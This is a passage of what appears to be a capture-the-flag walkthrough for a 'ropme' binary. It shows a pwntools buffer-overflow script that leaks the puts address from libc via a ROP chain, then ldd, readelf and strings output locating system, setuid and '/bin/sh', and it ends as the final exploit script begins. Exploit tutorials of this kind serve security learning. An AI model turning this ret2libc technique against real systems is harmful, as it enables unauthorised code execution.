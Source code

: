   from pwn import *
  p = gdb.debug('./ropme', 'b main')
  context(os='linux', arch='amd64')

  junk = ('A' * 72).encode()
  pop_rdi = p64(0x4006d3)     # gdb
  got_puts = p64(0x601018)    # objdump
  plt_puts = p64(0x4004e0)    # objdump
  plt_main = p64(0x400626)    # objdump

  gadget_leak = pop_rdi + got_puts + plt_puts + plt_main

  p.sendline(junk + gadget_leak)
  p.recvuntil("ROP me outside, how 'about dah?")
  leaked_put = p.recv()[:8].strip().ljust(8, b'\x00')
  log.info(f'Leaked Address: {leaked_put.hex()}')
  p.interactive()


5. Now we're back at the beginning. We've leaked the address of puts from within libc, and continue to run the program.
Next we need to find where libc is.

root@nidus:/git/challenges/ropme# ldd ropme
	-- snip --
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4e287e8000)

root@nidus:/git/challenges/ropme# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
   -- snip --
   430: 00000000000766b0   472 FUNC    WEAK   DEFAULT   14 puts@@GLIBC_2.2.5

root@nidus:/git/challenges/ropme# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
 1429: 0000000000048f20    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5

root@nidus:/git/challenges/ropme# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setuid
   25: 00000000000cc220   144 FUNC    WEAK   DEFAULT   14 setuid@@GLIBC_2.2.5

And lastly we need an argument to system, else it will crash. So to do that we use strings.
root@nidus:/git/challenges/ropme# strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 18a156 /bin/sh

Add all your variables to the code to look like this:
root@nidus:/git/challenges/ropme# cat exploit.py
  -- snip --
  junk = ('A' * 72).encode()
  pop_rdi = p64(0x4006d3)     # gdb ropper
  got_puts = p64(0x601018)    # objdump
  plt_puts = p64(0x4004e0)    # objdump
  plt_main = p64(0x400626)    # objdump
  libc_puts = p64(0x766b0)    # readelf
  libc_system = p64(0x48f20)  # readelf
  libc_setuid = p64(0xcc220)  # readelf
  libc_sh = p64(0x18a156)     # strings


6. Continue the coding by calculating the offset and print the information.
root@nidus:/git/challenges/ropme# cat exploit.py
  #!/usr/bin/python3
